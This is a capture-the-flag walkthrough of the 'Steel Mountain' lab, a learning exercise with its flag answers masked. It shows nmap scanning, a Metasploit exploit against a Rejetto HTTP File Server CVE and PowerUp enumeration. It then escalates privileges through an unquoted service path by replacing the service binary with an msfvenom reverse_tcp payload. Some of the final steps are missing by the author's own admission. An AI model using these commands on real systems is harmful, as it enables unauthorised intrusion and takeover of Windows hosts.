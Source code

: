 # Steel Mountain

- Who is the employee of the month?

	- Save that image and perform a reverse image search.
	- `Bill ******`

- Scan the machine with nmap. What is the other port running a web server on?

	- `nmap -A -p- <TARGET_IP>`
	- `****`

- Take a look at the other web server. What file server is running?

	- `******* http file server`

- What is the CVE number to exploit this file server?

	- `searchsploit rejetto file server 2.3`
	- Search those on exploitdb.
	- `2014-****`

- Use Metasploit to get an initial shell. What is the user flag?

	- `msfconsole`
	- `search 2014-****`
	- `use 0`
	- `set RHOSTS <TARGET_IP>`
	- `SET RPORT 8080`
	- `exploit`
	- `cat user.txt`
	- `***************************`

- To execute this using Meterpreter, I will type load powershell into meterpreter.

	  no answer needed

	- `wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1`
	- `upload PowerUp.ps1`
	- `load powershell`
	- `powershell_shell`
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`

- Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

	- `AdvancedSystemC**********9`

- Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

	  no answer needed

- What is the root flag?

	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4443 -f exe -o Advanced.exe`
	
	- `........` The only things I remember... sorry
	- `Advanced.exe`
	- `cd C:/Users/Administrator/Desktop`
	- `cat root.txt`
	- `***********************`

	- `......................`
